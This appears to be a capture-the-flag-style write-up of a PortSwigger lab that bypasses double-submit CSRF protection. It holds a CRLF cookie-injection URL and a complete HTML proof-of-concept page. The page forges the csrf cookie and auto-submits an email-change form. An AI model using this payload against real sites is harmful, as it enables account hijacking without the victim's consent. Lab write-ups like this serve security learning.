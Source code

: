 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f885b68-d993-4474-a85c-3d5b0242a035)

## Solution :

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/416cc06f-6115-4119-a114-2a0eb6df963c)

Send the request to Burp Repeater and observe that the value of the csrf body parameter is simply being validated by comparing it with the csrf cookie.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0316099e-9e67-412a-a322-1ca6a63d58f6)

As soon as an adversary is able to set cookie values, the CSRF-protection can be circumvented entirely.The token may or may not require the proper format, so I just try it out with an arbitrary short value:

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e6573443-b960-4bd8-aed1-bbddce52b2c3)

Sure enough, the request goes through and the email is updated.


Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a64109fb-ce37-40f1-85dd-2d71b015e2d2)


Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:

```html
/?search=hii%0d%0aSet-Cookie:%20csrf=test
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9985af61-c9f4-4400-92a3-555108544094)

To create the exploit, I use the CSRF PoC generator of Burp Suite.And remove the auto-submit <script> block and instead add the following code to inject the cookie and submit the form:

```html
 <img src="https://0ae200570418da8783876edf00d50090.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

Final Payloadwill -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ae200570418da8783876edf00d50090.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="jail&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="anytoken" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0ae200570418da8783876edf00d50090.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

LAB Solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/127c0cdd-5d5a-48ba-bb79-5b7fbaa17713)


